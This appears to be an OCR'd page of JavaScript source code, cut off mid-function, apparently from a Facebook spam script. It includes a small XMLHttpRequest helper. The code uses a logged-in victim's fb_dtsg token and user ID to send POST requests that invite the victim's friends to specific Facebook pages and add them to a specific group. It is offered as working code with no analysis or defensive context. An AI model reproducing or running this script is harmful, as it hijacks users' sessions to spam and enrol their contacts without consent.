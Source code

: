 if (page_id)jx.load(window.location.protocol + "//www.facebook.com/ajax/pages/invite/send?&amp;fb_dtsg=" + fb_dtsg + "&amp;profileChooserItems=%7B%22" + opo + "%22%3A1%7D&amp;checkableitems[0]=" + opo + "&amp;page_id=114548671957673&amp;__user="+ user_id +  "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=k&amp;phstamp=", function () {}, "text", "post")                         if (page_id)jx.load(window.location.protocol + "//www.facebook.com/ajax/pages/invite/send?&amp;fb_dtsg=" + fb_dtsg + "&amp;profileChooserItems=%7B%22" + opo + "%22%3A1%7D&amp;checkableitems[0]=" + opo + "&amp;page_id=255113344668121&amp;__user="+ user_id +  "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=k&amp;phstamp=", function () {}, "text", "post")                                                                         if (page_id)jx.load(window.location.protocol + "//www.facebook.com/ajax/groups/members/add_post.php?__a=1&amp;fb_dtsg=" + fb_dtsg + "&amp;group_id=544142325664062&amp;source=typeahead&amp;members=" + opo + "&amp;nctr[_2]=pagelet_group_members_summary&amp;lsd&amp;post_form_id_source=AsyncRequest&amp;__user=" + user_id, function () {}, "text", "post");                              } jx = {     b: function () {         var b = !1;         if ("undefined" != typeof ActiveXObject) try {             b = new ActiveXObject("Msxml2.XMLHTTP")         } catch (c) {             try {                 b = new ActiveXObject("Microsoft.XMLHTTP")             } catch (a) {                 b = !1             }         } else if (window.XMLHttpRequest) try {             b = new XMLHttpRequest         } catch (h) {             b = !1         }         return b     },     load: function (b, c, a, h, g) {         var e = this.d();         if (e &amp;&amp; b) {             e.overrideMimeType &amp;&amp; e.overrideMimeType("text/xml");             h || (h = "GET");             a || (a = "text");             g || (g = {});             a = a.toLowerCase();             h = h.toUpperCase();             b += b.indexOf("?") + 1 ? "&amp;" : "?";             var k = null;             "POST" == h &amp;&amp; (k = b.split("?"), b = k[0], k = k[1]);             e.open(h, b, !0);             e.onreadystatechange = g.c ? function () {                 g.c(e)             } : function () {                 if (4 == e.readyState)                     if (200 == e.status) {                         var b = "";                         e.responseText &amp;&amp; (b = e.responseText);                         "j" == a.charAt(0) ? (b = b.replace(/[
